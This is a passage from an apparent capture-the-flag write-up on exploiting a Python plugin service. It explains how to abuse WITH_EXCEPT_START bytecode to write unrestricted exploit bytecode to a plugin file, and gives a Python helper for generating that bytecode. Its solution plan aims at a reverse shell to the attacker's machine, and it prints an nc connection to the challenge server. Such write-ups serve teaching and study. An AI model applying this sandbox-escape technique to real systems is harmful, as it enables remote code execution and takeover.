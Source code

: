 And coincidently, this function exactly takes three arguments which can be passed with `WITH_EXCEPT_START`.

Since all data entries are passed to the plugin code via `co_consts`, we can reference them as arguments, as long as they're in the boundaries we can access (meaning indexes `0x30`-`0x39` for `"0"`-`"9"` and `0x61`-`0x66` for `"a"`-`"f"`).

This means we can use this function to pass our real (unrestricted) exploit bytecode as keys of the storage and write these to another plugin file which will be our final exploit plugin.

So we now can generate the bytecode that will call the function `co_consts[func_index]` with the arguments `co_consts[content_index]` and `co_consts[filename_index]`:

```
def load_const(index=0x30):
    return bytes([opmap["LOAD_CONST"], index])

def get_plugin_code(func_index, filename_index, content_index):
    return (
        # pos 7 on the stack is the plugin_log function
        load_const(func_index)
        # pos 4-6 are unused
        # pos 3 contains the "raw" argument (must be non-zero)
        + load_const() * 4
        # pos 2 contains the "filename"
        + load_const(filename_index)
        # pos 1 contains the "msg"
        + load_const(content_index)
        # now trigger the "exception handler"
        + bytes([[opmap["WITH_EXCEPT_START"], 0x30])
    )
```


## Solution

So to conclude, we can now:

0. Calculate proof of work to get the real target port
1. Craft python bytecode which will spawn a reverse shell to the attacker's machine
2. Divide this code into chunks of 12 bytes and store them as keys in the storage
3. Upload and run one plugin for each chunk which appends the key to the logfile aka exploit plugin
4. Run the exploit plugin

### Perform proof of work

When connecting to the service, we were greeted with a small PoW:

```
nc 23.88.100.81 4444
Welcome to our new Ordersystem. To spawn a new instance, please solve this pow:
challenge = 507a9bdca6d2c71c130b (decode this!)
please send x in hex format so that md5(x+challenge) starts with 6 zeros. x should be 10 bytes long :
```
